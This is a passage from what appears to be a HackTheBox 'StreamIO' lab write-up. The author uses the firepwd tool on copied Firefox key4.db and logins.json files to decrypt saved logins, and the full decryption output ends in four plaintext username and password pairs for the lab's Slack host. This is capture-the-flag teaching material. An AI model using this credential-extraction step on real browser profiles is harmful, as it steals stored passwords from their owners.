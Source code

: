 After downloading the two files, I used this tool [firepwd](https://github.com/lclevy/firepwd) to decrypt the passwords and usernames. We only need the key4.db and logins.json so we specify the directory where the two files are and that's it. 

```bash
└─$ .env/local/bin/python3 firepwd.py -d ~/hackthebox/streamio/
globalSalt: b'd215c391179edb56af928a06c627906bcbd4bd47'
 SEQUENCE {
   SEQUENCE {
     OBJECTIDENTIFIER 1.2.840.113549.1.5.13 pkcs5 pbes2
     SEQUENCE {
       SEQUENCE {
         OBJECTIDENTIFIER 1.2.840.113549.1.5.12 pkcs5 PBKDF2
         SEQUENCE {
           OCTETSTRING b'5d573772912b3c198b1e3ee43ccb0f03b0b23e46d51c34a2a055e00ebcd240f5'
           INTEGER b'01'
           INTEGER b'20'
           SEQUENCE {
             OBJECTIDENTIFIER 1.2.840.113549.2.9 hmacWithSHA256
           }
         }
       }
       SEQUENCE {
         OBJECTIDENTIFIER 2.16.840.1.101.3.4.1.42 aes256-CBC
         OCTETSTRING b'1baafcd931194d48f8ba5775a41f'
       }
     }
   }
   OCTETSTRING b'12e56d1c8458235a4136b280bd7ef9cf'
 }
clearText b'70617373776f72642d636865636b0202'
password check? True
 SEQUENCE {
   SEQUENCE {
     OBJECTIDENTIFIER 1.2.840.113549.1.5.13 pkcs5 pbes2
     SEQUENCE {
       SEQUENCE {
         OBJECTIDENTIFIER 1.2.840.113549.1.5.12 pkcs5 PBKDF2
         SEQUENCE {
           OCTETSTRING b'098560d3a6f59f76cb8aad8b3bc7c43d84799b55297a47c53d58b74f41e5967e'
           INTEGER b'01'
           INTEGER b'20'
           SEQUENCE {
             OBJECTIDENTIFIER 1.2.840.113549.2.9 hmacWithSHA256
           }
         }
       }
       SEQUENCE {
         OBJECTIDENTIFIER 2.16.840.1.101.3.4.1.42 aes256-CBC
         OCTETSTRING b'e28a1fe8bcea476e94d3a722dd96'
       }
     }
   }
   OCTETSTRING b'51ba44cdd139e4d2b25f8d94075ce3aa4a3d516c2e37be634d5e50f6d2f47266'
 }
clearText b'b3610ee6e057c4341fc76bc84cc8f7cd51abfe641a3eec9d0808080808080808'
decrypting login/password pairs
https://slack.streamio.htb:b'admin',b'JDg0dd1s@d0p3cr3@t0r'
https://slack.streamio.htb:b'nikk37',b'n1kk1sd0p3t00:)'
https://slack.streamio.htb:b'yoshihide',b'paddpadd@12'
https://slack.streamio.htb:b'JDgodd',b'password@12'

```
